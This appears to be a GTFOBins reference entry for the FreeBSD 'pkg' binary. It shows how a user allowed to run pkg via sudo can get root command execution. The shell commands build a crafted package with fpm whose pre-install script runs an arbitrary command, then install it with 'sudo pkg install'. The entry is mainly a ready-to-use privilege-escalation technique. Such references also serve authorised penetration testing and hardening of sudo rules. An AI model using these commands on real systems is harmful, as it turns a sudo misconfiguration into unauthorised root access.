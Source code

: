 # GTFOBin: pkg

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

It runs commands using a specially crafted FreeBSD package. Generate it with fpm and upload it to the target.

```
TF=$(mktemp -d)
echo 'id' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

```

```
sudo pkg install -y --no-repo-update ./x-1.0.txz
```